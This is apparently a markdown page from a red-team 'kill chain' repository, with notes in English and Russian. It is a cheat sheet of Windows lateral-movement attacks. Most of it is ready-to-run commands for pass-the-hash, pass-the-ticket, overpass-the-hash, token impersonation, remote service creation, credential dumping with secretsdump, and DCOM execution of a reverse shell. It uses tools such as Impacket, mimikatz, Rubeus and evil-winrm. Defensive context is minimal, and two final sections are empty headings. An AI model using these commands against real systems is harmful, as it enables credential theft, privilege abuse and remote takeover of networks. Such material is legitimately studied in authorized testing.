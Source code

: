 ## Pass the Hash:  
**Impacket and pth**: 
export SMBHASH=NTML hash
1) psexec.py -hashes LM:NTLM admin@target  
2) wmiexec.py -hashes :NTLM admin@target  
3) pth-winexe -U admin% //target cmd  
4) pth-wmic -U admin% //target "select Name from Win32_UserAccount"  
5) pth-wmis -U admin% //target "cmd.exe /c whoami > c:\out.txt"
6) pth-smbclient -U admin% //target/c$
7) pth-rpcclient -U admin% //target
8) pth-sqsh -U admin -S target
9) pth-curl http://target/exec?cmd=ipconfig
10) pth-net rpc group ADDMEM 'Administrators' username -S target -U domain/user

**Evil-winrm**:  
evil-winrm -i target -u admin -H "NT hash value"

**Windows (mimikatz)**:  
mimikatz.exe securlsa::pth /user:username /domain:domain /ntlm:NTLM_HASH /run:cmd  

**RDP**:  
xfreerdp /u:<user> /d:domain /pth:hash /v:ipAddr 

**CME**:  
crackmapexec smb <IP> -u username -H ":NT hash value"  

## PowerShell-Remoting: 

Enter-PSSession -ComputerName <computername> -Credentials <domain>\username  

Invoke-Command -ScriptBlock {whoami;hostname} -ComputerName <computername> -Credentials <domain>\username  

$session = New-PSSession -ComputerName <computer name> -verbose  
Enter-PSSession -Session $session -Verbose  
Invoke-Command -Session $session -ScriptBlock {whoami;hostname} -Verbose  

## REG.EXE:  
reg.exe; //Удаленный доступ к реестру с правами на запись на самом деле нам дает RCE.  
  
## DCERPC:  
Использует порты 135/TCP и 4915x/TCP, где 4915x — динамически назначаемые порты. Иногда могут использоваться порты из другого диапазона.  

1. wmiexec.py admin@target; //wmiexec.py -nooutput admin@target "mkdir c:\pwn".  
2. dcomexec.py admin@target; //dcomexec.py -nooutput admin@10.0.0.64 "mkdir c:\123".  
3. wmis -U admin //target "mkdir c:\pwn"/  
4. wmic.exe /user:username /password:password /node:target process call create '"c:\123".  
5. sc.exe; //Назначение инструмента — удаленное управление службами и драйверами. 
    - sc.exe \\target create testservice binPath= \path\to\prog start= auto  
    - sc.exe \\target start testservice  

## Pass the Ticket (Rubeus):  

**Description**: Если у нас имеется Kerberos-билет TGT (билет пользователя), то мы можем применить егодля аутентификации. При этом Linux и Windows используют разные форматы — ccache и kirbi соответственно.  

  **First step**: [steal ticket](https://github.com/Kerkroups/Cyber-Kill-Chain/blob/main/Data%20Gathering%20-%20Credentials%20Theft.md#%D0%B8%D0%B7%D0%B2%D0%BB%D0%B5%D1%87%D0%B5%D0%BD%D0%B8%D0%B5-kerberos-tickest-rubeus)  
**Second step**: create hidden process  
Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:dev.cyberbotic.io /username:username /password:fakepassword  
**Pass the ticket**: Rubeus.exe ptt /luid:(luid of areated process) /ticket:(stolen ticket)  
  
**Tools to steal token**:  
  1. https://github.com/slyd0g/PrimaryTokenTheft  
  2. https://www.ired.team/offensive-security/privilege-escalation/t1134-access-token-manipulation  
  3. Cobalt Strike, Covenant.  

**WINDOWS (Mimikatz)**:  
mimikatz# kerberos::ptt c:\path\to\tgt.kirbi  
mimikatz# kerberos::ptс c:\path\to\tgt.ccache  
После импорта используем любую нужную нам программу без указания каких‐либо ключей: dir \\dc.company.org\c$  

Под Linux делаем Pass-the-Ticket в формате ccache:  
cp tgt.ccache /tmp/krb5cc_0  
klist  
Конертируем билет в ccache: kekeo.exe "misc::convert ccache ticket.kirbi" "exit"  
После импорта билеты в Linux используем следующим образом:   
  - smbclient -k //dc.company.org/c$  
  - winexe -k yes -N //dc.company.org cmd  
  
Инструменты из набора impacket могут использовать билеты без предварительного импорта: Чтобы использовать Kerberos-билет при аутентификации, нужно обращаться к target по имени, а не по IP-адресу.  

KRB5CCNAME=`pwd`/tgt.ccache psexec.py -k -dc-ip 10.0.0.1 target.domain.com  
KRB5CCNAME=`pwd`/tgt.ccache secretsdump.py -k -no-pass target.domain.com  

## Overpass the Hash (Rubeus):  
**Overpass the hash is a technique which allows us to request a Kerberos TGT for a user use their NTLM or AES hash**.  
Rubeus.exe asktgt /user:username /aes256:(aes256 hash) /opsec /nowrap

## Token Impersonation (Incognito):  
load_incognito //load module;  
list_tokens -u //list available tokens;  
impersonate_token [domain]\\[username] //impersonate token;  
shell //get shell with privilege of stealed token;  

## DCOM:  
[Invoke-DCOM.ps1](https://github.com/EmpireProject/Empire/blob/master/data/module_source/lateral_movement/Invoke-DCOM.ps1) example:  
1) powershell-import C:\Tools\Invoke-DCOM.ps1  
2) powershell Invoke-DCOM -ComputerName dc.domain.local -Method MMC20.Application -Command C:\Windows\reverse_shell.exe  
  
**Aditional information and techniques**:  
  - https://www.ired.team/offensive-security/lateral-movement/t1175-distributed-component-object-model  
  - https://redblue42.code42.com/detecting-lateral-movement-via-dcom/  

## GOLDEN TICKET:  
  
  
## SILVER TICKET:  
  



  
